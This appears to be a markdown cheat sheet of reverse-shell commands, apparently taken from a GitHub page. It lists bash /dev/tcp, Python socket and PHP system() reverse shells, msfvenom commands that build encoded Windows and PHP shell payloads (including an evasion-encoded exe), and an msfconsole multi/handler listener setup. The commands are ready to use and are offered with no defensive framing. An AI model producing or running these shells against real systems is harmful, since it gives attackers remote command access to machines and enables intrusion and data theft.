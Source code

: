 ## Linux TCP Socket shell
```
bash -i >& /dev/tcp/10.10.10.10/443 0>&1
```

### Python Reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("my-ip",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
### php reverse shell
```
<?php echo system("0<&196;exec 196<>/dev/tcp/10.11.0.191/443; sh <&196 >&196 2>&196"); ?>
```

## msfvenom cheat sheet

### PHP Reverse shell
```
msfvenom -p php/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -f raw
``` 

### windows reverse shell
```
msfvenom -p windows/shell_reverse_tcp -LHOST=<attacker_ip> -LPORT=4444
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=<local_ip> LPORT=31337 -b "\x00" -e x86/shikata_ga_nai -f exe -o v.exe
```

### Encoded Windows reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4545 -f c -e x86/shikata_ga_nai

## msfconsole
```
root@kali:~$ msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.10
lhost => 192.168.1.10
msf exploit(multi/handler) > set lport 4444
lport => 4444
msf exploit(multi/handler) > run
```
